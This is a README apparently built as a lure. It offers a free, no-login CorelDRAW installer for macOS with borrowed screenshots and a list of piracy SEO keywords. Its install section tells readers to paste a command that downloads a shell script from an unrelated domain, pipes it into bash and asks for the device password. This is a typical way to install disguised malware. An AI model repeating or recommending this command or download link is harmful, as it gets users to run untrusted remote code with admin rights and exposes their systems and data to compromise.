 # CorelDRAW Graphics Suite for macOS — Offline Setup Guide

[![Download Setup Assistant](https://img.shields.io/badge/Download-Setup_Assistant-blueviolet)](https://coreldraw-graphics-suite-mac-free.github.io/.github)

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)
🎯 **What You Unlock**

   🎨 Full vector illustration & layout tools  
   🖼️ Photo editing, typography, and AI-driven enhancements  
   📁 Multi-format support: CDR, AI, PSD, PDF, SVG, EPS, and more  
   🧩 Plugins and module support  
   🔌 No login, activation, or subscription needed  
   💻 Full M1/M2/M3 native macOS compatibility

🖼 **Preview**

![CorelDRAW Main Interface](https://is1-ssl.mzstatic.com/image/thumb/PurpleSource221/v4/da/7c/d2/da7cd241-3d0e-ec7d-9b6b-d982a6f94033/6e6e30f8-c74a-4bba-a290-36a36c9d5054_cdgs-mac-5-for-mac-resize.png/643x0w.jpg)  


![Inspector & Layout](https://www.cnet.com/a/img/resize/a414b025b336d212b2ead616558689353cbabbe0/hub/2019/03/11/6001e6c5-36f6-449d-9c29-8e512b200e4a/coreldraw-2019-for-mac-properties-inspector-en.png?auto=webp&fit=crop&height=675&width=1200)  


![CorelDRAW Mac Suite](https://www.macobserver.com/wp-content/uploads/2024/05/coreldraw-featured-image.png)  



🔍 **SEO Keywords**

download corel draw for mac, coreldraw for macbook, coreldraw macos, coreldraw mac, coreldraw mac download, coreldraw graphics suite mac, coreldraw mac m1, coreldraw m2 chip mac, coreldraw offline setup mac, coreldraw free download mac, coreldraw full version mac, coreldraw activation mac, coreldraw without subscription, coreldraw standalone installer mac, coreldraw macbook pro, vector design software mac, illustration tool for mac, graphic editor macos, coreldraw enterprise mac, coreldraw native mac, layout design mac, image editing suite mac, macos design toolkit, coreldraw no login mac, download corel draw for mac free, download corel draw for mac free download 


